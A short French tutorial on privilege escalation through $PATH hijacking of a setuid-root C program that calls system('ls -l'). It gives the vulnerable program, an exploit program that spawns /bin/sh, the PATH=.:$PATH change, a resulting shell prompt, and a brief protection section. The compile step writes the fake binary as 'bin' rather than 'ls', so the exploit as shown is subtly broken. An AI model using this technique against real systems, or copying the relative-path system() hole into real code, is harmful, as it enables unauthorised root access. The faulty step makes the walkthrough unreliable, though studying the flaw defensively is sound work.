 # System()

## I. La faille
La fonction system() de Linux permet d'éxécuter une commande passée en argument. Pour savoir où se trouve le fichier à lancer lorsque le chemin absolue n'est pas précisé, system() utilise la variable d'environnement $PATH. Il est donc possible d'agir sur cette variable pour tromper system().

## II. Pré-requis
* Un programme suid
* L'argument de system() est un chemin relatif

    
    ```{r, engine='bash'}
    aas@ubuntu:~$ cat vuln.c
    ```
    
    ```{r, engine='C', count_lines}
    void main()
    {
      system("ls -l");
    }
    ```

Le comportement normal de ce programme est le suivant. Notons le suid activé.

    ```{r, engine='bash'}
    aas@ubuntu:~$ ./vuln

    total 48
    drwxr-xr-x 2 aas  aas  4096 sept. 16 09:45 Desktop
    drwxr-xr-x 2 aas  aas  4096 sept. 16 09:45 Documents
    drwxr-xr-x 2 aas  aas  4096 sept. 16 09:45 Downloads
    drwxr-xr-x 2 aas  aas  4096 sept. 16 09:45 Music
    drwxr-xr-x 2 aas  aas  4096 sept. 16 09:45 Pictures
    drwxr-xr-x 2 aas  aas  4096 sept. 16 09:45 Public
    drwxr-xr-x 2 aas  aas  4096 sept. 16 09:45 Templates
    drwxr-xr-x 2 aas  aas  4096 sept. 16 09:45 Videos
    -rws--x--x 1 root root 8600 sept. 16 10:07 vuln
    -rw-rw-r-- 1 aas  aas    34 sept. 16 10:07 vuln.c 
    ```

## III. Exploitation de la faille
### Création d'un faux programme 'ls'
    ```{r, engine='bash'}
    aas@ubuntu:~$ cat exploit.c 
    ```
    ```{r, engine='C', count_lines}
    void main()
    {
      char *shell[] = {"/bin/sh",NULL};
      execve(shell[0],shell,NULL);
    }
    ```
    ```{r, engine='bash'}
    aas@ubuntu:~$ gcc exploit.c -o bin
    ```


### Modification de $PATH
    ```{r, engine='bash'}
    aas@ubuntu:~$ PATH=.:$PATH
    ```

### Execution
    ```{r, engine='bash', count_lines}
    aas@ubuntu:~$ ./vuln 
    $
    ```
    
## IV. Protection
On utilise les fonctions de type exec à la place de System. Mettre le chemin absolue avec system est dangereux malgré tout puisqu'il est possible d'utiliser la faille IFS sur certains "anciens".

